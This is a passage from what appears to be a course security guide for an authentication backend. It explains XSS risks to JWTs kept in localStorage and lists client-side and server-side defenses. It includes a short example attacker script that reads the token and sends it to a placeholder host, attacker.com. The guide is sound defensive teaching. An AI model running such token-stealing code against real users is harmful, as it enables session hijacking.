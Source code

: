 ### 6. XSS (Cross-Site Scripting) Protection

**XSS is a client-side vulnerability** where an attacker injects malicious JavaScript into your web application. If successful, the attacker's script runs in the user's browser and can steal JWTs stored in localStorage:

```javascript
// Attacker's malicious script running in victim's browser
const token = localStorage.getItem('jwt');
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token })
});
```

**Who needs XSS protection?** The **frontend/client application** that stores and uses the JWT. While the backend (TCSS-460-auth-squared) validates inputs to prevent XSS payloads from being stored in the database, the primary XSS defense must be in the client-side code.

**Protection Strategies (Client-Side)**:
1. **Input Validation** - Sanitize all user input before displaying
2. **Output Encoding** - Escape HTML when displaying user content (e.g., user names, messages)
3. **Content Security Policy (CSP)** - HTTP header that restricts script sources
4. **httpOnly Cookies** - Store JWT in cookies inaccessible to JavaScript (alternative to localStorage)

**TCSS-460-auth-squared backend protections** (prevents storing XSS payloads):
```typescript
body('username')
    .trim()
    .isLength({ min: 3, max: 50 })
    .matches(/^[a-zA-Z0-9_-]+$/)  // Only allow safe characters
    .withMessage('Username can only contain letters, numbers, underscores, and hyphens'),
```

---

## Best Practices

Based on TCSS-460-auth-squared implementation and industry standards.

### 1. Use Standard Authorization Header

✅ **Preferred**:
```typescript
Authorization: Bearer <token>
```

❌ **Avoid**:
```typescript
X-Custom-Token: <token>
```

**Why?** `Authorization: Bearer` is the industry standard (RFC 6750). Most tools, libraries, and documentation expect this format.
